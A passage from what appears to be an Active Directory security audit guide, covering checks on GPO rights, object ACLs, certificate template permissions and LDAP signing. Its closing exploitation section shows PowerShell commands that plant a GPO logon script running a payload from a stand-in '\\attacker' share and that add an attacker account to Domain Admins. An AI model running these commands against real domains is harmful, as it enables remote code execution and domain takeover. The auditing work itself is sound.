     ```
    
    _Check the HTML for misconfigurations like broad “Allow log on locally” assignments._
    
2.  **Analyze ACLs on critical objects**
    
    ```powershell
    Get-ObjectAcl -DistinguishedName "OU=Finance,DC=lab,DC=local" -ResolveGUIDs | FL
    
    ```
    
    _Look for `ActiveDirectoryRights : GenericAll` or `WriteDacl`._
    
3.  **Review certificate template permissions**
    
    ```powershell
    certutil -view -restrict "Certificate Template=User"
    
    ```
    
    _Verify only intended security groups have Enroll/Autoenroll._
    
4.  **Confirm LDAP signing/channel binding**
    
    ```bat
    nltest /sc_query:LAB
    
    ```
    
    _Ensure `SEAL` is present in flags._
    

----------

### Expected Result

-   Identification of overly permissive GPO entries.
    
-   Detection of dangerous ACL rights on AD objects.
    
-   Discovery of certificate templates with insecure enrollment permissions.
    
-   Confirmation that LDAP signing/channel binding is enforced.
    

----------

### Exploitation When Misconfigured

-   **Allow log on locally = Everyone**: Deploy malicious GPO logon script as SYSTEM
    
    ```powershell
    Set-GPRegistryValue -Name "VulnGPO" -Key "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Group Policy\\Scripts\\Logon" -ValueName "0" -Type String -Value "powershell -exec bypass -File \\\"\\\\attacker\\\\payload.ps1\\\""
    
    ```
    
-   **GenericAll / WriteDacl**: Add attacker to Domain Admins
    
    ```powershell
    Add-ADGroupMember -Identity "Domain Admins" -Members "AttackerUser"
    